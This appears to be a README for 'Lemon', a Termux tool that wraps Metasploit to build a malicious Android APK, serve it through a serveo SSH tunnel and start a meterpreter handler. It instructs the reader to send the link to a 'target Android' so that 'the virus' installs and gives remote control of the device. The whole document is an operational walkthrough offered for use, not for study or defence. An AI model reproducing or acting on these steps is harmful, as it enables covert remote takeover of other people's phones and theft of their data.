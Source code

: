 **Requirements :-**

1.Metasploit-Framework

2.git

**Installation :-**

1.Install git by typing "pkg install git"

2.Download Lemon by typing "git clone https://github.com/Viper-Gamer/Lemon

3.Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

**How to use :-**

1.Run php by typing "sh php"

2.Run ssh by typing "sh ssh" and copy the link you get.   [NEW SESSION]

3.Forward TCP connections by typing "sh payload", choose a port of your own and the payload's name, it will take a little time to create and upload the payload with the specified port and name.

4.Type "sh Handler" and wait for the Handler to start, then type "set LPORT xxxx" Put your port instead of xxxx, and finally type "run"   [NEW SESSION]

5.Now, put your payload's name after the link that you got after running "sh ssh" [For Example : lente.serveo.net/Name.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds.
  Type "?" and press enter. Now you can mess with the Android device using the commnands listed.
